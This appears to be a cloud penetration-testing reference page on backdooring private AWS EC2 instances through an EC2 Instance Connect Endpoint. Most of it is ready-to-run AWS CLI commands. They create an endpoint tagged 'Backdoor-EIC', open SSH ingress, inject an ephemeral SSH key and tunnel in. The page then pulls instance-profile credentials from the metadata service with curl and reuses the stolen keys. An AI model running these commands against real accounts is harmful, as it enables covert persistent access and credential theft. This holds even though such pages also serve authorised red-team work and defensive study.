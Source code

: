 # AWS - EC2 Instance Connect Endpoint backdoor + ephemeral SSH key injection

Abuse EC2 Instance Connect Endpoint (EIC Endpoint) to gain inbound SSH access to private EC2 instances (no public IP/bastion) by:
- Creating an EIC Endpoint inside the target subnet
- Allowing inbound SSH on the target SG from the EIC Endpoint SG
- Injecting a short‑lived SSH public key (valid ~60 seconds) with `ec2-instance-connect:SendSSHPublicKey`
- Opening an EIC tunnel and pivoting to the instance to steal instance profile credentials from IMDS

Impact: stealthy remote access path into private EC2 instances that bypasses bastions and public IP restrictions. The attacker can assume the instance profile and operate in the account.

## Requirements
- Permissions to:
  - `ec2:CreateInstanceConnectEndpoint`, `ec2:Describe*`, `ec2:AuthorizeSecurityGroupIngress`
  - `ec2-instance-connect:SendSSHPublicKey`, `ec2-instance-connect:OpenTunnel`
- Target Linux instance with SSH server and EC2 Instance Connect enabled (Amazon Linux 2 or Ubuntu 20.04+). Default users: `ec2-user` (AL2) or `ubuntu` (Ubuntu).

## Variables
```bash
export REGION=us-east-1
export INSTANCE_ID=<i-xxxxxxxxxxxx>
export SUBNET_ID=<subnet-xxxxxxxx>
export VPC_ID=<vpc-xxxxxxxx>
export TARGET_SG_ID=<sg-of-target-instance>
export ENDPOINT_SG_ID=<sg-for-eic-endpoint>
# OS user for SSH (ec2-user for AL2, ubuntu for Ubuntu)
export OS_USER=ec2-user
```

## Create EIC Endpoint
```bash
aws ec2 create-instance-connect-endpoint \
  --subnet-id "$SUBNET_ID" \
  --security-group-ids "$ENDPOINT_SG_ID" \
  --tag-specifications 'ResourceType=instance-connect-endpoint,Tags=[{Key=Name,Value=Backdoor-EIC}]' \
  --region "$REGION" \
  --query 'InstanceConnectEndpoint.InstanceConnectEndpointId' --output text | tee EIC_ID

# Wait until ready
while true; do
  aws ec2 describe-instance-connect-endpoints \
    --instance-connect-endpoint-ids "$(cat EIC_ID)" --region "$REGION" \
    --query 'InstanceConnectEndpoints[0].State' --output text | tee EIC_STATE
  grep -q 'create-complete' EIC_STATE && break
  sleep 5
done
```

## Allow traffic from EIC Endpoint to target instance
```bash
aws ec2 authorize-security-group-ingress \
  --group-id "$TARGET_SG_ID" --protocol tcp --port 22 \
  --source-group "$ENDPOINT_SG_ID" --region "$REGION" || true
```

## Inject ephemeral SSH key and open tunnel
```bash
# Generate throwaway key
ssh-keygen -t ed25519 -f /tmp/eic -N ''

# Send short-lived SSH pubkey (valid ~60s)
aws ec2-instance-connect send-ssh-public-key \
  --instance-id "$INSTANCE_ID" \
  --instance-os-user "$OS_USER" \
  --ssh-public-key file:///tmp/eic.pub \
  --region "$REGION"

# Open a local tunnel to instance:22 via the EIC Endpoint
aws ec2-instance-connect open-tunnel \
  --instance-id "$INSTANCE_ID" \
  --instance-connect-endpoint-id "$(cat EIC_ID)" \
  --local-port 2222 --remote-port 22 --region "$REGION" &
TUN_PID=$!; sleep 2

# SSH via the tunnel (within the 60s window)
ssh -i /tmp/eic -p 2222 "$OS_USER"@127.0.0.1 -o StrictHostKeyChecking=no
```

## Post-exploitation proof (steal instance profile credentials)
```bash
# From the shell inside the instance
curl -s http://169.254.169.254/latest/meta-data/iam/security-credentials/ | tee ROLE
curl -s http://169.254.169.254/latest/meta-data/iam/security-credentials/$(cat ROLE)
```

Example output (truncated):
```json
{
  "Code": "Success",
  "AccessKeyId": "ASIA...",
  "SecretAccessKey": "w0G...",
  "Token": "IQoJ...",
  "Expiration": "2025-10-08T04:09:52Z"
}
```

Use the stolen creds locally to verify identity:
```bash
export AWS_ACCESS_KEY_ID=<AccessKeyId>
export AWS_SECRET_ACCESS_KEY=<SecretAccessKey>
export AWS_SESSION_TOKEN=<Token>
aws sts get-caller-identity --region "$REGION"
# => arn:aws:sts::<ACCOUNT_ID>:assumed-role/<InstanceRoleName>/<InstanceId>
```

## Cleanup
```bash
# Revoke SG ingress on the target
aws ec2 revoke-security-group-ingress \
  --group-id "$TARGET_SG_ID" --protocol tcp --port 22 \
  --source-group "$ENDPOINT_SG_ID" --region "$REGION" || true

# Delete EIC Endpoint
aws ec2 delete-instance-connect-endpoint \
  --instance-connect-endpoint-id "$(cat EIC_ID)" --region "$REGION"
```

> Notes
> - The injected SSH key is only valid for ~60 seconds; send the key right before opening the tunnel/SSH.
> - `OS_USER` must match the AMI (e.g., `ubuntu` for Ubuntu, `ec2-user` for Amazon Linux 2).

